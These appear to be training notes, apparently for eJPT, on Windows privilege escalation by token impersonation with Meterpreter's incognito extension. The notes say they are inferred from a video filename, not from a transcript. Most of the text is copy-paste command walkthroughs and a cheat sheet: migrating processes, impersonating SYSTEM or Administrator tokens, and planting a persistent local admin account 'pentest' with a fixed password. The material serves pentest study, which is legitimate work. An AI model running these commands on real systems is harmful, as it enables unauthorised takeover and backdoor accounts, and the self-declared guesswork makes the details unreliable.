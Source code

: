 # Windows Privilege Escalation: Token Impersonation with Incognito

Note: No transcript was provided. The following summary and commands are inferred from the video filename and typical eJPT workflow for Windows post-exploitation with Meterpreter’s incognito extension. Commands and flags are standard/commonly used for this topic.

## What the video covers (Introduction / big picture)
- Concept of Windows access tokens and abusing them to escalate privileges.
- Using Meterpreter’s incognito extension to:
  - Enumerate available tokens (delegation vs impersonation).
  - Impersonate a high-privileged user (e.g., local Administrator, Domain Admin) to gain elevated access.
  - Verify, use the new privileges, and revert to original context.
- Practical workflow: from a low-privilege Meterpreter session to local admin/SYSTEM by token impersonation, including process migration when needed.

## Flow (ordered)
1. Start from an existing Meterpreter session on a Windows target.
2. Baseline checks: identity, system info, architecture.
3. Load the incognito extension.
4. Enumerate available tokens and identify a target token.
5. If no good tokens appear, migrate to a likely process to inherit more/better tokens (e.g., explorer.exe of a logged-in admin).
6. Impersonate the chosen token.
7. Verify effective identity and privileges.
8. Use elevated rights (e.g., add a local admin, dump info, run commands).
9. Revert to self and clean up.

## Tools highlighted
- Metasploit Framework
- Meterpreter
  - incognito extension (list_tokens, impersonate_token, rev2self)
  - core/priv helpers (ps, migrate, getuid, getprivs, shell)
- Windows built-ins for verification and post actions
  - whoami, whoami /priv, whoami /groups
  - net user, net localgroup

## Typical command walkthrough (detailed, copy-paste friendly)
Assumes you already have a Meterpreter session (SESSION=1). Adjust session ID as needed.

Baseline and load incognito:
```
sessions -i 1
getuid
sysinfo
getprivs
load incognito
```

Enumerate tokens (unique users and groups):
```
list_tokens -u
list_tokens -g
```

If you don’t see a high-privileged user (e.g., DOMAIN\Admin or .\Administrator), try migrating to a process likely to have better tokens (e.g., explorer.exe of a logged-in admin):
```
ps
# Identify explorer.exe (or other interactive admin-owned process) PID from the list
migrate <PID>
# Re-enumerate tokens after migration
list_tokens -u
```

Impersonate a high-privileged token (replace with an actual token seen in list_tokens output):
```
impersonate_token "NT AUTHORITY\\SYSTEM"
# or:
impersonate_token "WORKSTATION\\Administrator"
# or for domain:
impersonate_token "CORP\\Administrator"
```

Verify and use the new privileges:
```
getuid
getprivs
shell
whoami
whoami /priv
whoami /groups
```

Optionally, persist by adding a local admin (example):
```
net user pentest Passw0rd! /add
net localgroup administrators pentest /add
```

When done, revert:
```
exit   # to leave the shell back to meterpreter
rev2self
getuid
```

Optional: If token impersonation fails or none are listed, some setups use getsystem (not strictly “incognito” but common in labs):
```
getsystem
getuid
```

## Practical tips
- Delegation vs Impersonation tokens:
  - Delegation tokens allow access to network resources as the impersonated user; impersonation tokens are typically limited to local actions. Prioritize delegation tokens if you need lateral movement.
- Token names must be quoted and backslashes escaped as shown ("DOMAIN\\User").
- If list_tokens is sparse, migrate to processes owned by privileged users (e.g., explorer.exe of a logged-in Administrator) to gain access to their tokens.
- Architecture matters: migrate to a matching x64/x86 process when interacting with system components.
- Verify privileges after impersonation with whoami /priv and whoami /groups; do not assume success just because impersonate_token returned OK.
- You generally cannot impersonate a group name; target user tokens shown under list_tokens -u.
- If UAC is enabled and you only have a medium integrity token, you may need a UAC bypass or to target a high integrity process to get meaningful elevation.
- Clean up: revert with rev2self and remove any persistence you created.

## Minimal cheat sheet (one-screen flow)
```
# 1) Attach to session and prep
sessions -i 1
getuid && sysinfo && getprivs
load incognito

# 2) Enumerate tokens
list_tokens -u
list_tokens -g

# 3) If needed, migrate to a better process
ps
migrate <PID_of_explorer_or_admin_owned_process>
list_tokens -u

# 4) Impersonate a target user token
impersonate_token "DOMAIN\\Administrator"    # or "NT AUTHORITY\\SYSTEM"

# 5) Verify and use
getuid && getprivs
shell
whoami && whoami /priv && whoami /groups

# 6) (Optional) Persistence
net user pentest Passw0rd! /add
net localgroup administrators pentest /add

# 7) Revert
exit
rev2self
getuid
```

## Summary
This module demonstrates Windows privilege escalation by abusing access tokens via Meterpreter’s incognito extension. The core workflow is to load incognito, list available tokens, impersonate a high-privileged one, verify elevation, and then take administrative actions or establish persistence. If suitable tokens are not immediately available, migrate to a process likely to have them (e.g., an admin’s explorer.exe). Always verify changes and revert your token when finished.